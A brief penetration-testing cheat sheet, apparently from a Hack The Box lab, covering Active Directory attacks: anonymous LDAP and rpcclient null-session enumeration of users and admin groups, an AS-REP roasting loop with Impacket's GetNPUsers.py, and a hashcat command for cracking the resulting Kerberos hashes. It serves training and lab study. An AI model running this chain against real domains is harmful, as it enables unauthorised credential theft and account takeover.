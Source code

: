 # Active Directory

## ldapsearch

It's worth checking if the LDAP service allows anonymous binds using the ldapsearch tool

## RPC Enum

`rpcclient -U "" -N 10.10.10.161`

`enumdomusers` `enumdomgroups`

Query domain admins `querygroup 0x200` `querygroupmem 0x200`

Query admin `queryuser 0x1f4`

## AS-REP roasting

There is an option for an account to have the property Do not require Kerberos preauthentication or UF\_DONT\_REQUIRE\_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts. I have a list of accounts from my RPC enumeration above. Ill start without the SM _or HealthMailbox_ accounts

`for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`

`hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force`

